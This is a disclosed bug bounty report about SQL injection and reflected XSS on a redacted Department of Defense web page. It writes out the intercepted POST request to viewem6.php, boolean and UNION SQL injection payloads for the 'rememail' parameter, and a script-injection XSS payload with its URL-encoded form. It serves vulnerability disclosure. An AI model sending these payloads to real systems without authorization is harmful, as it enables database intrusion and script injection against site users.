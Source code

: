 # [███]  SQL injection & Reflected XSS

## Report Details
- **Report ID**: 484801
- **URL**: https://hackerone.com/reports/484801
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-01-23T21:08:17.063Z
- **Disclosed**: 2019-12-02T19:11:46.642Z

## Reporter
- **Username**: jarvis0x1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
###SQL injection test###

1. Go to site [███████](http://█████/)
2. Intercept this request

```
POST /viewem6.php HTTP/1.1
Host: ████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://████████/
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Connection: close
Upgrade-Insecure-Requests: 1

rememail=test&rememail2=test
```
Set this payload to param ```rememail```

```
' or '1'='1
```

or 
```
' or true --+
```
█████████
█████████

But if you set another payload 
```
' or '1'='2
```

or 
```
' or false --+
```

██████████
███████

Also if you set payload
```
' union select 1--
```

You will have another request
█████

I did not begin to extract any data about the server or database, since this may be contrary to the rules.

###Reflected XSS###

Using this payload I can execute XSS

```
' or '"<script>alert(1)</script>'='"<script>alert(1)</script>
```

You need to encode this payload

```
%27 or %27"<script>alert(1)</script>%27=%27"<script>alert(1)</script>
```

Result in Burp
█████

## Impact

Using this bug hacker can get access to database of server, also hacker can exploit XSS injection.

## Attachments
No attachments
